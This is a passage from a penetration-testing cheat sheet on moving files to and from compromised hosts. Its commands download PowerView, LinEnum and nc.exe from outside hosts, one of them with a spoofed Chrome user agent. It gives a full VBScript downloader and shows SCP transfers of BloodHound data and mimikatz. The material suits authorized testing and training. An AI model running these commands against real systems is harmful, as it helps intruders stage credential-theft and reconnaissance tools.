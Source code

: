 #### Download a File Using JavaScript and cscript.exe
```cmd.exe
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

#### VBScript Code to be executed on Upload from a Windows Host
```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

#### Download a File Using VBScript and cscript.exe
```cmd.exe
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

#### Download a file using PHP
```Shell
php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

#### Upload a file using SCP
```Shell
scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip
```

#### Download a file using SCP
```Shell
scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe
```

#### Invoke-WebRequest using a Chrome User Agent
```PowerShell
Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"
```


## Protected File Transfers

### File Encryption on Windows
